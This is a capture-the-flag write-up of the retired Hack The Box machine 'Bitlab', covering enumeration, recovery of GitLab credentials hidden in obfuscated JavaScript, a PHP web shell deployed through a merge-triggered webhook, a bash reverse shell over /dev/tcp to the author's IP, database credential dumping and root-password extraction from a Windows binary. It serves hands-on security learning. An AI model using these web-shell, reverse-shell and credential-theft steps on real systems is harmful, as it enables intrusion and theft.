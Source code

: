 # Bitlab

This is the write-up for the box Bitlab that got retired at the 11th January 2020.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.114    bitlab.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/bitlab.nmap 10.10.10.114
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page is a login page to **GitLab Community Edition** which is a version control management for Git repositories.

![GitLab Homepage](bitlab_web-1.png)

Lets search for hidden directories with **Gobuster**:
```
gobuster -u http://10.10.10.114 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s 200,204,301,307,401,403
```

It found the following directory pages:
- /help (Status: 301)
  - Index page with _/bookmarks.html_
- /search (Status: 200)
- /profile (Status: 301)
  - Profile of a potential username: _clave_
- /public (Status: 200)
- /root (Status: 200)
  - Profile of Administrator, but has no projects or repositories
- /explore (Status: 200)
- /ci (Status: 301)

The _/help/bookmarks.html_ has different links to pages and one of them is called _"Gitlab login"_ but it has JavaScript in the source.
```javascript
function() {
    var _0x4b18 = ["\x76\x61\x6C\x75\x65", "\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E", "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64", "\x63\x6C\x61\x76\x65", "\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64", "\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];
    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()
```

> NOTE: I beautified the code with [Beautifier.io](https://beautifier.io/)

It is obfuscated in hex and can be decoded with the **developer tools in any browser**:
```
Array(6) [ "value", "user_login", "getElementById", "clave", "user_password", "11des0081x" ]
```

The deobfuscated JavaScript runs two commands to set the _user_login_ and _user_password_:
```javascript
function(){
  document[getElementById](user_login)[value] = clave;
  document[getElementById](user_password)[value] = 11des0081x;
}
```

The credentials work on the **GitLab** portal and the user _clave_ has access to two repositories.

![GitLab Repositories](bitlab_web-2.png)

### Exploiting GitLab

The repository _Administrator/Deployer_ has an _index.php_ file in it, that runs `sudo git pull` on the _/root_ directory if a _merge request_ in the _Profile_ repository is done:
```php
<php

$input = file_get_contents("php://input");
$payload  = json_decode($input);

$repo = $payload->project->name ?? '';
$event = $payload->event_type ?? '';
$state = $payload->object_attributes->state ?? '';
$branch = $payload->object_attributes->target_branch ?? '';

if ($repo=='Profile' && $branch=='master' && $event=='merge_request' && $state=='merged') {
    echo shell_exec('cd ../profile/; sudo git pull'),"\n";
}

echo "OK\n";
```

The repository _Administrator/Profile_ has many _merge requests_, so it looks like an automated task that a merge will automatically push.

![GitLab merge requests in Profile](bitlab_web-3.png)

Creating new branch on _Profile_:
```
+ --> New branch --> Give branch a name --> Create branch
```

Creating new file on _Profile_ on _new_branch_:
```
+ --> New file --> Create code to execute --> Commit changes
```

The code to execute will be a PHP web shell:
```
<?php
system($_REQUEST['cmd']);
?>
```

Creating _merge request_:
```
Create merge request --> Submit merge request --> Merge
```

Now _shell.php_ got merged to the _master branch_ and should be uploaded onto the webserver on _/profile/shell.php_:
```
http://10.10.10.114/profile/shell.php?cmd=whoami
```

The webshell works and shows the output of `whoami` as _www-data_.
Lets start a reverse shell:
```
POST /profile/shell.php HTTP/1.1
Host: 10.10.10.114
(...)
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.10/9001 0>&1'
```

After URL-encoding the command and sending it, the listener on my IP and port 9001 starts a reverse shell session as _www-data_.

## Privilege Escalation

The user _clave_ has one **Snippet on GitLab** called _Postgresql_ with credentials for the database:
```php
<php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
```

This snippet of code and `pg_fetch_all` can be used to get information out of the database with a PHP script:
```php
(...)
$results = pg_fetch_all($result);
print_r($results);
```

Running the PHP script:
```
php postgresql.php
```

It outputs the credentials of the user:
```
[id] => 1
[username] => clave
[password] => c3NoLXN0cjBuZy1wQHNz==
```

Base64-decoding the password:
```
echo -n c3NoLXN0cjBuZy1wQHNz== | base64 -d

ssh-str0ng-p@ss
```

The decoded password password does not work, but instead the Base64-encoded string from the database works on SSH and login as _clave_ on the box is successful.

### Privilege Escalation to root

The user _clave_ has a  Windows executable file called _RemoteConnection.exe_ in the home directory, so lets download that to our local client for analysis:
```
scp clave@10.10.10.114:RemoteConnection.exe .
```

The `strings` show some information that it runs **PuTTY** with the _ShellExecuteW_ call:
```
strings RemoteConnection.exe

strings -e l RemoteConnection.exe
```
```
(...)
GetUserNameW
ADVAPI32.dll
ShellExecuteW
SHELL32.dll
(...)
```
```
clave
C:\Program Files\PuTTY\putty.exe
open
```

Another string looks like Base64, but it decodes to a weird set of characters, which could be the obfuscated password:
```
echo -n XRIBG0UCDh0HJRcIBh8EEk8aBwdQTAIERVIwFEQ4SDghJUsHJTw1TytWFkwPVgQ2RztS | base64 -d
```
```
]
OPLER0D8H8!%K%<5O+VLV6G;R
```

As this is a Windows binary, it is recommended to debug it on a Windows Operating System.
After debugging it on Windows with **x32dbg** and searching for more strings, there is a password that is used with command line options from **PuTTY**:
```
ssh root@gitlab.htb -pw \"Qf7]8YSV.wDNF*[7d?j&eD4^\"
```

> Password of root: Qf7]8YSV.wDNF*[7d?j&eD4^

```
ssh 10.10.10.114
```

This password works on SSH and grants access to the box as root!

